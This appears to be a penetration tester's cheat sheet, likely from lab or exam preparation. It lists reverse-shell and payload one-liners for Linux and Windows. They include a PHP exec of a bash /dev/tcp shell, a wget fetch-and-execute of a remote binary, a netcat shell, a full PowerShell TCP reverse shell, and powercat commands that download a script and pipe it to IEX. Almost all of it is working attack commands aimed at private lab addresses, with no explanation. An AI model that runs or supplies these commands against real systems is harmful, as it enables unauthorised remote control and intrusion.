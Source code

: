 </aside>

```jsx
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.213/443 0>&1'");
?>
```

```jsx
wget 192.168.45.194/payload/bash-shell -O /tmp/shell
chmod +x /tmp/shell
/tmp/shell
```

```jsx
busybox nc 192.168.45.218 443 -e sh
```

### TTY Linux

```jsx
which python / which python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo;fg
reset
xterm
```

## Windows

```jsx
powershell -Command whoami
```

PowerShell - one-liner:

```jsx
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe%20-enc%20<base64 encoded payload>
```

```jsx
powershell $client = New-Object System.Net.Sockets.TCPClient("192.168.45.205",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

PowerShell + Powercat

```jsx
powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.191/powercat.ps1');powercat -c 192.168.45.191 -p 443 -e powershell

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.168/powercat.ps1'); powercat -c 192.168.45.168 -p 443 -e cmd.exe

cmd /c "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.197/powercat.ps1'); powercat -c 192.168.45.197 -p 443 -e cmd.exe"
```

